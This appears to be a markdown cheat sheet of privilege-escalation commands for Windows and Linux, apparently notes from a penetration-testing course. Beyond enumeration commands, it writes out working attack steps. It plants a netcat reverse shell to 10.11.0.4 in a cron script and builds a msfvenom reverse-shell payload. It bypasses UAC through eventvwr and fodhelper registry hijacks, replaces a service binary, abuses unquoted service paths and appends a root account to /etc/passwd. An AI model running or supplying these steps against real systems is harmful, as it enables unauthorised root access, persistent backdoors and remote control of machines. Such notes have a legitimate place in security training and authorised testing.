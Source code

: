 ### Windows
```
whoami
net user student
net user
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
findstr /si password *.xml *.ini *.txt 
tasklist /SVC
ipconfig /all
route -print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic service get name,startname
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
mountvol

powershell -> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer

reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\Software\Policies\Microsoft\Windows\Installer

windows-privesc-check2.exe --dump -G

```
https://www.fuzzysecurity.com/tutorials/16.html



### Linux
```
whoami
id
cat /etc/passwd
hostname
cat /etc/issue
cat /etc/*-release
uname -a
uname -r
arch
ps aux
ip a
/sbin/route
ss -anp
iptables
iptables-save
iptables-restore
grep -Hs iptables /etc/* - as regular user
ls -lah /etc/cron*
cat /etc/crontab
grep "CRON" /var/log/cron.log
dpkg -l
mount
cat /etc/fstab
/bin/lsblk
lsmod
/sbin/modinfo libata
find / -writable -type d 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

./unix-privesc-check standard > output.txt

echo >> user_backups.sh 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh

```



```
whoami /priv
whoami /groups - check privilege level for uac

net user admin Ev!lpass
powershell.exe Start-Process cmd.exe -Verb runAs - will require accepting UAC prompt



```


```
cd C:\Tools\privilege_escalation\SysinternalsSuite 
sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe

```
run fodhelper.exe
in process monitor - search fodhelper.exe
reg -> name not found -> HKCU 

HKCU:\Software\Classes\ms-settings\shell\open\command
HKCR:ms-settings\shell\open\command


REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f


UAC Bypass

```
whoami /priv

whoami /groups


C:\users\alice\desktop\sigcheck64.exe -accepteula -a -m .\eventvwr.exe

Did this to get high integrity shell and bypass

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.119.175 LPORT=443 -f exe > shell_443.exe

reg add HKCU\Software\Classes\mscfile\shell\open\command /d C:\users\alice\desktop\shell_443.exe /f

C:\Windows\system32\eventvwr.exe
```


Listing running services on Windows using PowerShell

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}

icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

i686-w64-mingw32-gcc adduser.c -o adduser.exe

move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"

move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

dir "C:\Program Files\Serviio\bin\"

wmic service where caption="Serviio" get name, caption, state, startmode

whoami /priv

shutdown /r /t 0

net localgroup administrators

#### unquoted service paths

```
wmic service get displayname,pathname

place adduser.exe in 

C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

we could name our executable Program.exe and place it in C:\, or name it My.exe and place it in C:\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.
It is more likely that the software’s main directory (C:\Program Files\My Program in our example) or subdirectory (C:\Program Files\My Program\My service) is misconfigured, allowing us to plant a malicious My.exe binary.

```

### USBPcap

```

systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

driverquery /v

C:\Program Files\USBPcap> type USBPcap.inf

mingw-w64.bat

C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1>echo off Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.
C:\> gcc
gcc: fatal error: no input files compilation terminated.
C:\> gcc --help
Usage: gcc [options] file...

gcc

gcc --help

```
# Cron

```
grep "CRON" /var/log/cron.log

student@debian:/var/scripts$ echo >> user_backups.sh 
student@debian:/var/scripts$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.11.0.4 1234 >/tmp/f" >> user_backups.sh 
student@debian:/var/scripts$ cat user_backups.sh
#!/bin/bash
cp -rf /home/student/ /var/backups/student/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/f


```

# Updating /etc/passwd file

```
openssl passwd evil 

echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd 

su root2
```




